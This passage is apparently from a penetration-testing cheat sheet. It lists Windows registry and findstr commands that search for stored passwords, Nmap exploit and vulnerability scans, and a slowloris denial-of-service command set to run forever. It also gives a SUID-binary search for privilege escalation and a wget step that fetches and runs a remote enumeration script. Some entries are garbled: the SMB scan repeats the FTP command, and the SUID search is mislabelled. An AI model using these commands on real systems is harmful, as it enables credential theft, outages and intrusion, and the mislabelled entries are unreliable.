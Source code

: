     -   reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
    
    -   reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
    
    -   dir /s *pass* == *cred* == *vnc* == *.config*
    
    -   findstr /si password *.xml *.ini *.txt
    
    -   reg query HKLM /f password /t REG_SZ /s
    
    -   reg query HKCU /f password /t REG_SZ /s

-   Vulnerability Scanning with Nmap

-   Nmap Exploit Scripts  
    [*https://nmap.org/nsedoc/categories/exploit.html*](https://nmap.org/nsedoc/categories/exploit.html)

-   Nmap search through vulnerability scripts  
    `cd /usr/share/nmap/scripts/  
    ls -l \*vuln\*`

-   Nmap search through Nmap Scripts for a specific keyword  
    `ls /usr/share/nmap/scripts/\* | grep ftp`

-   Scan for vulnerable exploits with nmap  
    `nmap --script exploit -Pn $ip`

-   NMap Auth Scripts  
    [*https://nmap.org/nsedoc/categories/auth.html*](https://nmap.org/nsedoc/categories/auth.html)

-   Nmap Vuln Scanning  
    [*https://nmap.org/nsedoc/categories/vuln.html*](https://nmap.org/nsedoc/categories/vuln.html)

-   NMap DOS Scanning  
    `nmap --script dos -Pn $ip  
    NMap Execute DOS Attack  
    nmap --max-parallelism 750 -Pn --script http-slowloris --script-args
    http-slowloris.runforever=true`

-   Scan for coldfusion web vulnerabilities  
    `nmap -v -p 80 --script=http-vuln-cve2010-2861 $ip`

-   Anonymous FTP dump with Nmap  
    `nmap -v -p 21 --script=ftp-anon.nse $ip-254`

-   SMB Security mode scan with Nmap  
    `nmap -v -p 21 --script=ftp-anon.nse $ip-254`

-   File Enumeration

    -   Find UID 0 files root execution

    -   `/usr/bin/find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \\; 2>/dev/null`

    -   Get handy linux file system enumeration script (/var/tmp)  
        `wget https://highon.coffee/downloads/linux-local-enum.sh  `
        `chmod +x ./linux-local-enum.sh  `
        `./linux-local-enum.sh`
